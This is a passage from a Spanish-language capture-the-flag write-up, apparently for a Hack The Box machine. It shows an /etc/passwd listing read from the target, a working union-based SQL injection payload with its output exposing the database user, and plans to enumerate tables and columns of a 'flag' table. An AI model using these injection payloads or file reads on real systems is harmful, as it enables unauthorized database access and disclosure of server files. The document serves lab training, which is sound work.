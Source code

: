 ```console
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
htb:x:1000:1000:htb:/home/htb:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:109:117:MySQL Server,,,:/nonexistent:/bin/false
uhc:x:1001:1001:,,,:/home/uhc:/bin/bash
you are not eligible due to already qualifying.
```
**consulta para ver usuario**
```console
$mi input
player=admin'union select user()-- -

>output 
Sorry, uhc@localhost you are not eligible due to already qualifying.
```
## Explotación
- En este punto ya tenemos varias cosas interesantes 
1. Nombre de usuario
2. Nombre de la base de datos
3. Lectura de archivos internos del servidor

por lo tanto comenzaré con las inyecciones sql sobre la db en uso que es **november** 

**Primera inyección para saber las tablas existentes de la db "november"**
![](/assets/img/commons/Union/burp4.png)
Muy bien veo una que la tabla se llama flag **Posteriormente haré otra inyección para saber las columnas de la tabla flag** 
